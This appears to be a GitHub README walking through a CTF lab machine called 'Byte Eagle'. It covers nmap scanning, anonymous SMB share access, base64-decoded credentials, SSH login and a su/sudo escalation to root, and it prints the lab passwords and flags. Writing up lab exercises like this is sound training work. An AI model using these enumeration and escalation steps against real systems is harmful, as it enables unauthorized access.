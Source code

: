 #  Byte Eagle CTF -  Privilege Escalation Walkthrough


 Overview

This repository contains a detailed walkthrough of the **Byte Eagle CTF Challenge**, focused on Linux enumeration, privilege escalation, and flag retrieval using SSH and system misconfigurations. The challenge involved accessing a vulnerable Ubuntu machine, discovering credentials, escalating privileges, and capturing flags.



### Target Information

- **Machine IP**: `192.168.96.139`
- **OS**: Ubuntu 14.04.6 LTS
- **Challenge Type**: SSH & Privilege Escalation
- **Users**: `wavex` → `aveng` → `root`

---

### Tools Used

- `nmap`
- `smbclient`
- `base64`
- `ssh`
- `find`, `cat`, `su`, `sudo`

---

### Step-by-Step Walkthrough

### Step 1: Reconnaissance with Nmap


nmap 192.168.96.139 -sV -sC


Discovered open ports:
- 22 (SSH)
- 80 (HTTP)
- 139/445 (SMB)

---

### Step 2: Enumerate SMB Shares

smbclient -L 192.168.96.139 -N
smbclient //192.168.96.139/wave -N
get FLAG1.txt
get message_from_aveng.txt
```

---

### Step 3: Decode FLAG1


echo "<base64-string>" | base64 -d


Decoded credentials:
- `user: wavex`
- `password: door+open`
- `FLAG1`: `Flag1{Welcome_T0_THE-W3ST-W1LD-B0rder}`

---

### 🔗 Step 4: SSH into Target


ssh wavex@192.168.96.139


- Logged into the machine.
- Verified user with `whoami` → `wavex`

---

###  Step 5: Find Writable Directories


find / -writable -type d 2>/dev/null


Found:
```
/usr/share/av/westsidesecret
```

Inside:
```
ififoregt.sh
```

---

### 🧾 Step 6: Read Script and Get New Credentials


cat ififoregt.sh


Revealed:
- `user: aveng`
- `password: kaizen+80`

---

###  Step 7: Switch User & Gain Root Access


su aveng
sudo su


- Switched to `aveng`
- Gained root using same password: `kaizen+80`

---

###  Step 8: Navigate to Root Directory & Retrieve Final Flag


cd /root
cat FLAG2.txt


Output:
```
FLAG2 { WELCOME TO 67 84 70 }
```

ASCII Translation:
- 67 → C
- 84 → T
- 70 → F

Final Flag: `WELCOME TO CTF`

---

##  Conclusion

The Byte Eagle CTF demonstrated practical experience in:

- Network Reconnaissance (Nmap, SMB)
- Base64 decoding and credential extraction
- Linux privilege escalation
- Post-exploitation and flag retrieval

> Successfully rooted the machine and captured both flags. Great learning experience!

---


##  About Me

I'm **Tejas Kottarshettar**, an aspiring cybersecurity professional with interests in:
- Web Application Penetration Testing
- Red Team Operations
- CTFs & Offensive Security

 Let's connect:
- [LinkedIn](www.linkedin.com/in/tejas-kottar-shettar-35522722b)




